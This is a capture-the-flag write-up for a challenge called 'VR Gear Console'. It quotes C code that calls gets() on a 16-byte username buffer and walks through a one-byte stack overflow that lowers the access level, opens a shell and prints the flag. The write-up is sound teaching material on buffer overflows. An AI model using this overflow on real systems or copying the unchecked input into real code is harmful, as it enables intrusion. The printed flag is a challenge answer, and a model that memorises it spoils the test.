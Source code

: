 ### VR Gear Console - 90 points

> Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

Hint:
> * What happens if you read in more characters than the length of the username buffer?
> * You should look at an ascii table to see what character you need to choose.
> * Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
> * "cat file - | vrgearconsole " will keep the pipe open for commands.

The hint tells us that we want to overflow the username.
Let's look at the code.
```c
int login() {
	int accessLevel = 0xff;
	char username[16];
	char password[32];
	printf("Username (max 15 characters): ");
	gets(username);
	printf("Password (max 31 characters): ");
	gets(password);
	...
	if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 2;                                                                           
	} else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 0;                                                                           
	} else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
		accessLevel = 0x80;
	}                                                                                               
	
	return accessLevel;
}
...
int main(int argc, char **argv) {
    	...
	int access = login();
    	printf("Your access level is: 0x%08x\n", access);
    	if (access >= 0xff || access <= 0) {
    		printf("Login unsuccessful.\n");
    		exit(10);
    	} else if (access < 0x30) {
		printf("Admin access granted!\n");
		printf("The flag is in \"flag.txt\".\n");
		system("/bin/sh");
	} else {
		printf("Login successful.\n");
		printf("You do not have permission to access this resource.\n");
		exit(1);
	}
}
```
By looking at the code we understand that we want our access to be lower than 0x30.
This access is calculated using login() which gets our input (without verifying the length) and does a few comparisons, therefore we can overflow it (just like the hint says).

Let's see how the the program responds to our inputs (username buffer can have 16 characters).
```
Username (max 15 characters):                                                                      
Password (max 31 characters):                                                                      
Your access level is: 0x000000ff                                                                   
Login unsuccessful.
```
Ok, let's try give it 17 characters to the username.
```
Username (max 15 characters): AAAAAAAAAAAAAAAAA
Password (max 31 characters):  
Your access level is: 0x00000041
Login successful.
You do not have permission to access this resource.
```
We're getting closer. It appears the last character is being written to the last byte of our access level. Let's confirm it!
```
Username (max 15 characters): AAAAAAAAAAAAAAAAB                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x00000042                                                                   
Login successful.                                                                                  
You do not have permission to access this resource. 
```
Our assumption was correct (thank you little-endian). Now we just need it to be less than 30. Let's write an ascii character with a lower hex value ('/' with a value of 2F, for instance).
```
Username (max 15 characters): AAAAAAAAAAAAAAAA/                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x0000002f                                                                   
Admin access granted!                                                                              
The flag is in "flag.txt".                                                                         
$
```
This gave us a shell. Now we can just read the flag.
```
$ ls                                                                                               
flag.txt  vrgearconsole  vrgearconsole.c                                                           
$ cat flag.txt                                                                                     
5a9aeea545615089851dd6a9b57a3139
```
Flag:
```
5a9aeea545615089851dd6a9b57a3139
```
